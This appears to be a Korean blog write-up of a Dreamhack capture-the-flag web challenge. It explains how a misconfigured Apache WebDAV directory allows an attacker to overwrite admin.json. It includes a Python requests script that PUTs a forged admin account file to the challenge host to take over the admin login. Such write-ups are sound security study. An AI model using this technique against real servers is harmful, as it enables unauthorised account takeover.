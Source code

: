 ```yaml
---
layout: post
title: "[DH]Really Not SQL"
date: 2025-08-07 12:04 +0900
category: Write-Up
tag: [dreamhack, web]
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

보안적으로 취약한 설정을 찾아, 파일 덮어쓰기를 통해 익스플로잇을 하는 문제이다.

### **RECON**
아파치-PHP 스택을 사용하는 웹 서버의 내부 코드가 주어진다. 
이떄, admin, guest의 계정이 주어진 것을 확인할 수 있으며, admin으로 로그인하면 flag.php를 통해 서버 내부의 플래그 값을 입력할 수 있다.

### **SOLUTION**
admin 게정은 json으로 관리되며, /var/www/http/user/admin.json 경로로 접근이 가능하다.

edit_profile.php 파일에서 계정의 비밀번호를 수정할 수 있는 기능이 존재하지만, admin 계정의 세션 인증이 필요하기 때문에 접근할 수 없다.

서버의 설정 파일을 확인해보자. 아파치 웹 서버에서 기본적으로 생성되는 000-default.conf 파일을 보면, `/var/www/http/user` 경로에 취약하게 설정이 된 것을 확인할 수 있다.

```js
  <Directory /var/www/html/user/>
      DAV On                    // WebDav 기능 활성화
      Options Indexes           // index.html(.php) 가 없으면 파일리스트 출력
      AllowOverride All         // .htaccess 파일을 통한 설정 덮어쓰기 허용
      Require all granted       // 누구에게나 해당 폴더 접근 허용
  </Directory>
```

WebDav에 대한 설명은 다음 [링크](https://umbum.dev/562/)를 참고하길 바란다. 

### **POC**

DAV On 설정을 통해 /var/www/html/user 경로에 파일을 덮어쓸 수도, 파일을 새로 올릴 수도 있다.

admin 계정으로 로그인하는 것이 목표이기 때문에, 파일 업로드 공격을 시도했다.

임의의 비밀번호를 sha-256 해시한 값을 업로드할 json 파일에 넣고, requests로 서버에 업로드하였다.

```json
{"no": 0, "id": "admin", "password": "{NEW_PASSWORD}"}
```

```py
import requests

url = "http://host8.dreamhack.games:24093/user/admin.json"


file_path = './new_admin.json'

with open(file_path, 'rb') as f:
    res = requests.put(url, data=f)

print(f'HTTP 상태 코드: {res.status_code}')
if res.status_code in [200, 201, 204]:
    print('파일 업로드(수정) 성공!')
else:
    print('업로드 실패')
```

이제 admin 계정으로 로그인이 가능해지며, flag.php 경로를 입력하면 플래그를 획득할 수 있다.

![login]

[chall]: /assets/DreamHack/reallynotsql/chall.png
[login]: /assets/DreamHack/reallynotsql/solution_login.png